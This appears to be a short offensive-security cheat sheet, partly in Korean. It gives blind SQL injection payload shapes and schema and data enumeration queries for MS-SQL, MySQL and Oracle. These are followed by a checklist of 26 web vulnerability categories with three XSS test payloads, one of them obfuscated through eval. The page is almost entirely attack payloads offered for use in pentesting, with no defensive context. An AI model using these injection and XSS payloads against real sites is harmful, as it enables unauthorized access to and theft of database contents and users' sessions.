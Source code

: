 # [MS-SQL]  
## Blind Shape  
``` sql
OO' and substring((query), 1, 1) < 'a'--  
```  

* get DB NAME  
``` sql
db_name()  
```
  
* Get Table name  
``` sql
select top 1 name from sysobjects where xtype='U'  
```

* Get Column name  
``` sql
select top 1 column_name from information_schema.columns where table_name = '[Table Name]'  
```
  
* Get Data  
``` sql
select top 1 [Column Name] from [Table Name]  
```
  
# [MySQL]  
## Blind Shape  
``` sql
???' and ascii(substr((query), 1, 1)) > 'a'#  
```  

* Get Table Name
``` sql
select table_name from information_schema.tables where table_type='base table' limit 0,1  
                                                                                     ㄴ> 0번 째 테이블  
```
  
# [Oracle]   
## Blind Shape  
``` sql
and (ascii(SUBSTR(query),1,1))) > 1--  
```
  
* Get DB name   
``` sql
select DISTINCT owner FROM all_tables;  
```
  
* Get Table name   
``` sql
select table_name from all_tables;  
```
  
* Get Column name   
``` sql
select column_name from all_tab_columns where table_name='[table name]';
```

-----------------------------------------------------------------------------------
Row 갯수 파악

Limit 기능
``` sql
select * from (select rownum rnum, users.* from users) A where A.rnum between 1 and 3  
```

-----------------------------------------------------------------------------------
1. 관리자페이지 접근통제 및 계정관리
2. 사용자 접근통제 및 로그관리
3. 사용자 비밀번호 관리
4. 비인가 페이지 접근
5. 파라미터 변조 취약점
6. 암호화
7. 소스코드 속
8. 검색엔진 robot
9. HTTP Method
10. Direcory Listing
11. 취약한 세션 및 쿠키 인증
12. Buffer Overflow
13. Format String
14. 시스템 명령어 실행 취약점
15. 파일 다운로드 
16. 파일 업로드
17. 파일 Include
18. 악성 스크립트 XSS, CSRF  
`<img src="#" onmouseover="alert(1);">`  
`<img src="#" onerror="alert(1);">`  
`<img onclick='var a="aler"+"t(al"+"ert"+"(1));";eval(a);'>`  
19. 악성 콘텐츠 html
20. 웹페이지 오류정보 처리
21. 웹서버 백업파일 관리
22. 취약한 게시판 프로그램, 웹어플리케이션
23. SQL Injection
24. SSI Injection
25. XML 취약점
26. LDAP Injection
